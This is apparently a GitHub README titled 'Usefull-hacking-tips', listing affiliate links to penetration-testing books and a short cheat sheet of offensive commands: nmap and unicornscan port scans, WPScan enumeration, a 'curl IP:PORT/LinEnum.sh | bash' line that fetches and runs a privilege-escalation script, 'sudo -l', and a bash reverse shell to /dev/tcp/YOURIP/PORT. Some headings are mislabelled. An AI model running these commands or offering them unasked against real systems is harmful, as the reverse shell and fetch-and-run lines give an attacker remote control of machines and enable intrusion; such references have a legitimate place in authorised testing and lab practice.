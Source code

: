 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
</ul>

    
<b>Shell</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u <URL> -eu -ep -et
</ul>
